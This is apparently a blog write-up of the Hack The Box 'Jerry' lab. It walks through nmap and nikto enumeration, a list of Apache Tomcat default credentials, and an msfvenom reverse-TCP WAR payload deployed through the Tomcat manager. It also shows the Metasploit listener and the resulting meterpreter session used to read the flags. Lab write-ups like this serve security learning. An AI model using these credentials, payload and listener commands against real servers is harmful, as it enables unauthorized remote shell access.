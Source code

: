```yaml
---
published: false
---
```

![htb_jerry.png]({{site.baseurl}}/_posts/htb_jerry.png)


### Htb - Writeup

## 1. Enumeration

Nmap
```ruby
# nmap -sC -sV -oA htb 10.10.10.95

Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
Nmap scan report for 10.10.10.95
Host is up (0.19s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
* Discovered Apache Tomcat/7.0.88 on port 8080

Nikto
```ruby
# nikto -h 10.10.10.95:8080

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.

```

* Discovered Apache Tomcat and JSP vulnerability 

## 2. Navigate to 10.10.10.95:8080
![8080.jpg]({{site.baseurl}}/_posts/8080.jpg)

access: http://10.10.10.95:8080/manager/html "Manager App" 

Username: tomcat
Password: s3cret

```ruby
list of Apache Default Credentials 
Username Password
admin 	password
admin 	
admin 	Password1
admin 	password1
admin 	admin
admin 	tomcat
both 	tomcat
manager manager
role1 	role1
role1 	tomcat
role 	changethis
root 	Password1
root 	changethis
root 	password
root 	password1
root 	r00t
root 	root
root 	toor
tomcat 	tomcat
tomcat 	s3cret
tomcat 	password1
tomcat 	password
tomcat 	
tomcat 	admin
tomcat 	changethis
```
source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown


## 3. Attack Vector
utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg]({{site.baseurl}}/_posts/war.jpg)

Crafting WAR file:
tools: msfvenom
```ruby
msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of war file: 52304 bytes
Saved as: war.war
```
extract file:
```ruby
jar -xvf war.war 
created: META-INF/
inflated: META-INF/MANIFEST.MF
created: WEB-INF/
inflated: WEB-INF/web.xml
inflated: yewdmyrhyi.jsp
```
* Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.

# 4. Setup Listener
tool: msf
```ruby
msfdb run
```
* quick way to start postgres and metasploit framework

after initilzation:
```ruby
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST LOCALIP
set LPORT 9000
exploit
```

Access: http://10.10.10.95/war/yewdmyrhyi.jsp
* wait for reverse tcp connection

```ruby
[*] Started reverse TCP handler on 10.10.13.75:9002
[*] Sending stage (179779 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > dir
Listing: C:\apache-tomcat-7.0.88
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work
```

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with `meterpreter > cat "2 for the price of 1.txt"`

## 5. Final Thoughts
As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts could not be used due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.


-exec@will

## 6. Further Learning/Sources:

- [http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html)
- [https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/)
- [https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [https://www.windows-commandline.com/read-file-from-command-line/](https://www.windows-commandline.com/read-file-from-command-line/)


